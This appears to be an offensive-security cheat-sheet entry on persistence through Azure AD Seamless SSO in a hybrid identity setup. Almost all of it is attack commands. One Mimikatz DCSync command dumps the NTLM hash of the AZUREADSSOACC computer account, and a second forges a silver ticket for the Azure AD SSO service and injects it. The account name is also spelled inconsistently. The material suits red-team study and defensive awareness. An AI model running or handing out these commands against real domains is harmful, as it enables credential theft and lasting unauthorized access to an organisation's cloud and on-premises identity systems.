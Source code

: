 # Persistence

## Hybrid identity - Seamless SSO
- If seamless SSO is enabled, a computer account AZUREADSSOC is created in the on-prem AD.
- Password/key of the AZUREADSSOACC never changes.

#### Get NTLM hash of AZUREADSSOC account
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:defeng\azureadssoacc$ /domain:defeng.corp /dc:defeng-dc.defeng.corp"'
```

#### Create a silver ticket
```
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin1 /sid:S-1-5-21-938785110-3291390659-577725712 /id:1108 /domain:defeng.corp /rc4:<> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"' 
```
